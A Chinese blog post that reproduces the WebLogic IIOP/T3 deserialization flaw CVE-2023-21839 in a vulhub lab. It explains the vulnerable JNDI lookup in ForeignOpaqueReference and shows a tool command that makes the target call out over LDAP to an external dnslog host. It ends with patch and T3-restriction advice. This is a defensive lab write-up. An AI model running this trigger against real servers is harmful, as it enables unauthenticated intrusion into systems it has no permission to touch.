

# Weblogic 反序列化（CVE-2023-21839）漏洞复现 - Vice_2203 - 博客园

> 原文：[`www.cnblogs.com/BlogVice-2203/p/17454727.html`](https://www.cnblogs.com/BlogVice-2203/p/17454727.html)

## **前言**

序列化（Serialization）：将对象的状态信息转换为可以存储或传输的形式的过程，一般将对象转换为字节流。序列化时，对象的当前状态被写入到临时或持久性存储区（文件、内存、数据库等）。

反序列化（Deserialization）：从序列化的表示形式中提取数据，即把有序字节流恢复为对象的过程

反序列化攻击：攻击者控制了序列化后的数据，将有害数据传递到应用程序代码中，发动针对应用程序的攻击

### **Weblogic 简介**

WebLogic 是美国 Oracle 公司出品的一个 application server，确切的说是一个基于 JAVAEE 架构的中间件，WebLogic 是用于开发、集成、部署和管理大型分布式 Web 应用、网络应用和数据库应用的 Java 应用服务器。

### **漏洞详情**

由于 Weblogic IIOP/T3 协议存在缺陷，当 IIOP/T3 协议开启时，允许未经身份验证的攻击者通过 IIOP/T3 协议网络访问攻击存在安全风险的 WebLogic Server，漏洞利用成功 WebLogic Server 可能被攻击者接管执行任意命令导致服务器沦陷或者造成严重的敏感数据泄露。

#### **漏洞影响版本**

Weblogic 12.2.1.3.0
Weblogic 12.2.1.4.0
Weblogic 14.1.1.0.0

#### **环境搭建**

在 vulhub 社区更新了此漏洞，直接拉取该环境即可

> [`github.com/vulhub/vulhub/tree/master/weblogic/CVE-2023-21839`](https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2023-21839)

```
下载地址：https://github.com/vulhub/vulhub
clone 下载项目：git clone https://github.com/vulhub/vulhub.git 
```

```
cd weblogic  //进入 weblogic 文件夹
cd CVE-2023-21839  //进入 CVE-2023-21839 漏洞文件夹
docker-compose up -d //开启漏洞环境，拉取镜像
docker ps  //查看当前 docker 运行情况，可以看到该漏洞环境已经开启 
```


> 访问 http://your-ip:7001/console，可以看到登录界面



#### **漏洞复现**

> 漏洞解析：
> ForeignOpaqueReference 是 OpaqueReference 接口的实现类。在 ForeignOpaqueReference 类中声明了两个私有变量：jndiEnvironment 和 remoteJNDIName，同时声明了两个构造方法，在有参构造方法中接收 env 和 remoteJNDIName，并分别赋值给了上面的两个私有类变量。

> ForeignOpaqueReference 类的 getReferent()方法是 OpaqueReference 接口的实现方法，在 getReferent()方法中，retVal = context.lookup(this.remoteJNDIName); 对本类 remoteJNDIName 变量中的 JNDI 地址进行远程加载，导致了反序列化漏洞

```
package weblogic.jndi.internal;
//进入反序列化
public class ForeignOpaqueReference implements OpaqueReference, Serializable {                  
    private Hashtable jndiEnvironment;
    private String remoteJNDIName;
        ......
    public ForeignOpaqueReference(String remoteJNDIName, Hashtable env) {
        this.remoteJNDIName = remoteJNDIName;
        this.jndiEnvironment = env;
    }
    public Object getReferent(Name name, Context ctx) throws NamingException {
        InitialContext context;
        if (this.jndiEnvironment == null) {
            context = new InitialContext();
        } else {
            Hashtable properties = this.decrypt();
            context = new InitialContext(properties);
        }
        Object retVal;
        try {
            retVal = context.lookup(this.remoteJNDIName);   // 漏洞点
        } finally {
            context.close();
        }
        return retVal;
    }
    ......
} 
```

> getReferent()调用分析

```
package weblogic.jndi;
public interface OpaqueReference {
    Object getReferent(Name var1, Context var2) throws NamingException;
    String toString();
} 
```

> OpaqueReference 接口有两个抽象方法：getReferent() 和 toString();

ForeignOpaqueReference 类的 getReferent() 方法调用在 WLNamingManager 类中。

在 WLNamingManager 类的 getObjectInstance() 方法中，当传入的 boundObject 对象实现了 OpaqueReference 接口时，则会调用该对象的 getReferent() 方法，即 boundObject = ((OpaqueReference)boundObject).getReferent(name, ctx);。

> 正如上方提到的 ForeignOpaqueReference 类实现了 OpaqueReference 接口，因此会调用该类中的 getReferent() 方法，导致反序列化代码执行漏洞。

```
package weblogic.jndi.internal;
public final class WLNamingManager {
    public static Object getObjectInstance(Object boundObject, Name name, Context ctx, Hashtable env) throws NamingException {
        if (boundObject instanceof ClassTypeOpaqueReference) {
                        ......
        } else if (boundObject instanceof OpaqueReference) {
            boundObject = ((OpaqueReference)boundObject).getReferent(name, ctx);
        } else if (boundObject instanceof LinkRef) {
      ...
        }
    }
} 
```

> CVE-2023-21839 是在反序列化过程中没有进行恶意操作,在完成反序列化过程后执行了漏洞类 ForeignOpaqueReference 中 getReferent()方法中的 lookup()才触发的漏洞。
> 其中，Context 的 lookup 方法是用来查找指定名称的对象的,它接受一个字符串参数,返回一个 Object 对象,如果没有找到指定名称的对象,则返回 null，我们则利用此点触发反序列化漏洞。

> 这里我直接使用 dnslog 进行测试

```
下载漏洞检测工具用于测试是否存在该漏洞
https://github.com/4ra1n/CVE-2023-21839

使用官方提供的工具需要使用 go 语言编译
cd cmd
go build -o CVE-2023-21839.exe 
```


```
使用 dnslog 检测

CVE-2023-21839.exe -ip 192.168.31.230 -port 7001 -ldap ldap://2qdt3z.dnslog.cn 
```


> 至此，dnslog 有回显证明漏洞存在

#### **修复方式**

> 1.下载最新补丁，链接：[`support.oracle.com/rs?type=doc&id=2917213.2`](https://support.oracle.com/rs?type=doc&id=2917213.2)
> 2.限制 T3 协议访问